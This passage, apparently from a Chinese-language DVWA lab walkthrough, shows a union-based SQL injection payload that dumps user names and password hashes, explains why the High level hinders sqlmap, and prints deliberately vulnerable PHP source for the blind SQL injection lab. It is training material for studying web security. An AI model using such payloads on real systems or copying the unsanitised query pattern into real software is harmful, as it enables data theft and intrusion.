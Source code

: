 ###  漏洞利用: 

 虽然添加了LIMIT 1，但是我们可以通过#将其注释掉。由于手工注入的过程与Low级别基本一样，直接最后一步演示下载数据。 

`输入1' or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #，查询成功：`

![M3q1r6.png](https://s2.ax1x.com/2019/11/12/M3q1r6.png)

High级别的查询提交页面与查询结果显示页面不是同一个，也没有执行302跳转，这样做的目的是为了防止一般的sqlmap注入，因为sqlmap在注入过程中，无法在查询提交页面上获取查询的结果，没有了反馈，也就没办法进一步注入。

# DVWA——SQL Injection (Blind)

## 级别：low

### SQL Injection (Blind) Source

```php
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Get input
    $id = $_GET[ 'id' ];

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else {
        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```
